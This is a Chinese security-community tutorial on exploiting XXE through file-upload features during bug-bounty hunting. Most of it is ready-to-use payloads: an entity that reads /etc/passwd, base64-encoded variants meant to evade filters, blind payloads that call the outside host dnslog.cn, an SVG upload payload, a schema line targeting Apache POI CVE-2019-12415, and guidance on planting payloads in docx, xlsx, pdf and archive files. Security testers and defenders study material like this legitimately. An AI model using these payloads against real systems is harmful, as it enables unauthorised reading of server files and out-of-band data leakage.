





# XXE 在文件上传当中的应用-先知社区

> **来源**: https://xz.aliyun.com/news/16463  
> **文章ID**: 16463

---

**当前文章所介绍的仅仅是用于SRC当中的技巧，所以不会更深层次的利用。**

## 有回显的XXE

尝试读取 `/etc/passwd`文件。

```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>

```

### 尝试使用base64绕过

```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>

```

## 无回显的XXE

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://dnslog.cn"> %ext;
]>
<r></r>

```

```
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://dnslog.cn'>]>
<root>&test;</root>

```

### 尝试使用base64绕过

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "data://text/plain;base64,aHR0cDovL2Ruc2xvZy5jbg=="> %ext;
]>
<r></r>

```

## 文件上传的XXE

### SVG 格式当中的XXE

在实际的src挖掘当中，svg格式上传的地方不是很多，通常来说当有svg上传的地方一般首先会尝试XSS。

**payload**

```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://dnslog.cn" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>

```

### docx 格式当中的XXE

这是一个word文档解压后的内容



最简单粗暴的方式，使用工具：[whitel1st/docem: A tool to embed XXE and XSS payloads in docx, odt, pptx, xlsx files (oxml\_xxe on steroids)](https://github.com/whitel1st/docem)生成docx的payload，该工具会在每一个xml文件当中插入指定的payload。

### Excel格式当中的XXE

**但是为什么我们的XML会被解析？**

* apache poi ([Apache POI详解及Word文档读取示例-阿里云开发者社区](https://developer.aliyun.com/article/1321316))
* 开发者自己写的office文档解析代码
* ..........

对于前者来说，存在两个漏洞`CVE-2019-12415`与`CVE-2014-3529`

如果是CVE-2014-3529，那么我们直接使用docem工具进行生成payload就可以利用，具体原理不多叙述。

如果是CVE-2019-12415，那么情况就有所变化，下载[excel文件](https://github.com/apache/poi/raw/f509d1deae86866ed531f10f2eba7db17e098473/test-data/spreadsheet/CustomXMLMappings.xlsx)，编辑xmlMaps.xml(路径在下面)



文件当中放入次代码

```
<xsd:redefine schemaLocation="http://dnslog.cn/"></xsd:redefine>
```

也是能够成功访问dnslog地址的（这个洞有点弱，只能访问dnslog）

### Pdf 格式当中的XXE

先来抓个包





可以看到某个pdf文件当中还是有一些xml标签的，我们插入无回显的payload可以尝试一下。

### 压缩文件当中的XXE

注意压缩文件当中必须要有xml文件！！！  
压缩后，在burp当中进行抓包，修改插入payload。

### 更多文件的XXE



## 总结

**多关注一下文件上传的功能点，只要出现了xml标签，就尝试插入XXE**

## 参考自

[blackhat.com/docs/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.pdf](https://www.blackhat.com/docs/webcast/11192015-exploiting-xml-entity-vulnerabilities-in-file-parsing-functionality.pdf)

<https://www.youtube.com/watch?v=aSiIHKeN3ys>
